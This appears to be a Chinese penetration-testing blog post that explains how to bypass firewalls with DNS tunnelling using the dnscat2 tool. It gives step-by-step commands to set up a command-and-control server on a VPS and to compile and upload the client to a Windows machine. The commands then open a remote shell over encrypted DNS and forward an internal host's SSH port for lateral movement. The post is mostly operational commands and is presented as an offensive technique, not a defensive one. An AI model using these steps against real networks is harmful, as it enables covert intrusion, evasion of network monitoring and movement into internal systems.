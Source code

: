 ```yaml
---
layout: post
title: 通过DNS协议绕过防火墙
categories: penetration
tags: [penetration]
---
```

工具

[https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)

测试环境

```
ubuntu 14.04 root用户
windows7 x64 user用户
```

**0x01环境准备**

```
apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
#修改Gemfile source 'https://ruby.taobao.org/'
bundle install
```

或者通过docker安装

```
apt-get install docker.io
service docker status
service docker start
cd ~/dnscat2/server
#修改Gemfile source 'https://ruby.taobao.org/'
docker build .
```

安装完成之后，可能在docker images 看到这个镜像没有名字，我们修改一下 docker tag IMAGEID  mpercival/dnscat2

**0x02利用过程**

server端

```
cd dnscat2/server
ruby ./dnscat2.rb
#docker用户  docker run -p 53:53/udp -it --rm mpercival/dnscat2 ruby ./dnscat2.rb
```
![2841831801](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2841831801.png)

 可以通过两种方式设置C&C地址，如果没有域名的话，直接在外网VPS运行ruby ./dnscat2.rb 有域名的童鞋，先设置好NS服务器将NS记录修改为当前的机器。然后通过ruby ./dnscat2.rb yourdomain 我这里使用的IP地址

client端

将dnscat2文件夹下面的client编译好成exe，然后上传到client端

```
dnscat2.exe --dns=server=server端ip --secret=c2c6d04cab68ee2947d80316858da0f8
```
![3501735141](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3501735141.png)

由于在新版本的dnscat2是加密的所以我们在客户端执行的时候要加上秘钥，不然无法正确的建立连接
![197873402](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-197873402.png)

获取shell

```
session -i 1 #切换到session 1
help #通过help可以看到支持的命令
shell  #执行之后会新生成一个session  需要通过session -i 2 切过去
```
![842306562](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-842306562.png)

这样就成功获取了一个shell，我们可以通过数据包看一下
![3078174618](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3078174618.png)

数据都是通过DNS发出去的，并且是加密过的，因为在最初的dnscat2的版本中，数据只是简单的hex编码。到最新版的默认就已经加密
![2981816537](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2981816537.png)

通过Salsa20加密算法进行了加密，如果不知道秘钥，就几乎不能解密数据包了。除了普通的反弹shell和上传下载文件功能，还有一个比较有用的功能
可以通过dnscat2实现DNS隧道，然后进行内网渗透。在成功获取一个session之后执行

```
session -i id
listen 4444 10.211.55.19:22 #将内网10.211.55.19的22端口转发到本地的4444
```
![2557060718](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2557060718.png)

然后直接ssh本地的ip的4444端口
![2093290607](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2093290607.png)

注意的是我用的docker环境，所以是直接ssh的docker的ip



**0x03参考**

[https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)

[https://zeltser.com/c2-dns-tunneling/](https://zeltser.com/c2-dns-tunneling/)


  

